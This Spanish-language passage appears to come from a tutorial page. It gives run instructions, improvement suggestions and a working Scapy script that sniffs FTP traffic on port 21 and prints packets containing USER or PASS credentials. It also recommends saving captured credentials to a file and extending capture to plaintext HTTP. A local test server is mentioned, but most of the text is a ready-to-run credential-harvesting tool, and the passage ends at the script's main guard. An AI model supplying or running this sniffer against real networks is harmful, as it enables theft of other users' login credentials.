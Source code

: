 **Pasos para Ejecutar**:
1. Instalar Scapy: `pip install scapy`.
2. Ejecutar el script con permisos de administrador (requerido para capturar paquetes):
   - En Linux: `sudo python3 script.py`.
   - En Windows: Ejecutar como administrador.
3. Asegurarse de que la interfaz `eth0` (o la especificada) existe. Puedes listar interfaces con:
   ```python
   from scapy.all import get_if_list
   print(get_if_list())
   ```
4. Configurar un entorno de prueba (por ejemplo, un servidor FTP local) para generar tráfico.

**Consideraciones**:
- El script debe ejecutarse en una red donde el tráfico FTP sea visible (por ejemplo, en modo promiscuo o en un punto de la red como un switch).
- En redes modernas, el tráfico FTP es raro debido a su inseguridad; protocolos como SFTP son más comunes.

---

### **Recomendaciones para Mejorar el Código**
Basado en la evolución:
1. **Manejo de Errores Completo**:
   - Reintroducir `try`/`except` para manejar errores de decodificación y otros problemas.
2. **Filtrado Más Inteligente**:
   - Usar expresiones regulares para capturar `USER` y `PASS` con mayor precisión (por ejemplo, `r'^USER\s+(.+)$'`).
3. **Salida Formateada**:
   - Guardar las credenciales en un archivo o mostrarlas con un formato claro (por ejemplo, separar usuario y contraseña).
4. **Captura Dinámica**:
   - Combinar `timeout` y `count` para detener la captura tras un tiempo o un número de paquetes, según ocurra primero.
5. **Interfaz Configurable**:
   - Permitir al usuario especificar la interfaz mediante argumentos de línea de comandos.
6. **Soporte para Otros Protocolos**:
   - Extender el script para capturar credenciales en otros protocolos en texto plano (por ejemplo, HTTP con `tcp port 80`).

Ejemplo:
```python
from scapy.all import sniff, Raw
import argparse

def analisis(paquete):
    if paquete.haslayer(Raw):
        try:
            texto = paquete[Raw].load.decode('utf-8', errors='ignore')
            if 'USER' in texto or 'PASS' in texto:
                print(f"[+] Capturado: {texto.strip()}")
        except Exception as e:
            print(f"[-] Error al procesar paquete: {e}")

def main():
    parser = argparse.ArgumentParser(description="Captura credenciales FTP")
    parser.add_argument('--iface', default='eth0', help='Interfaz de red')
    parser.add_argument('--timeout', type=int, default=60, help='Tiempo de captura (segundos)')
    args = parser.parse_args()

    print(f"[*] Capturando en {args.iface} durante {args.timeout} segundos...")
    paquetes = sniff(filter="tcp port 21", iface=args.iface, timeout=args.timeout)
    for paquete in paquetes:
        analisis(paquete)

if __name__ == "__main__":
```